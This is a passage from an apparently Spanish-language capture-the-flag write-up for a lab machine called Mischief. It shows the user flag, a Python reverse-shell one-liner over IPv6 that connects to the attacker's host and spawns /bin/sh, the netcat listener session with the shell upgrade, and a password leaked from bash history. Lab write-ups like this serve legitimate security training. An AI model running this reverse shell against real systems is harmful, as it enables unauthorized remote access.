 ```null
0 packages can be updated.
0 updates are security updates.


Last login: Sat Jul 14 12:44:04 2018 from 10.10.14.4
loki@Mischief:~$ cat user.txt 
bf58078e7b802c5f32b545eea7c90060
```

# Escalada

Gano acceso también como ```www-data``` a través de una reverse shell por IPv6

```null
command=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:4::1000",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);';
```

```null
nc -nlvp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from dead:beef::250:56ff:feb9:43f7.
Ncat: Connection from dead:beef::250:56ff:feb9:43f7:38116.
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/sh")'
$ ^Z
zsh: suspended  ncat -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  ncat -nlvp 443
                                reset xterm
$ export TERM=xterm
$ export SHELL=bash
$ stty rows 55 columns 209
$ bash
www-data@Mischief:/$ 
```

En el histórico de la bash se leakea una contraseña

```null
loki@Mischief:~$ cat .bash_history 
python -m SimpleHTTPAuthServer loki:lokipasswordmischieftrickery
exit
free -mt
ifconfig
cd /etc/
sudo su
su
exit
su root
ls -la
sudo -l
ifconfig
id
cat .bash_history 
nano .bash_history 
exit
```

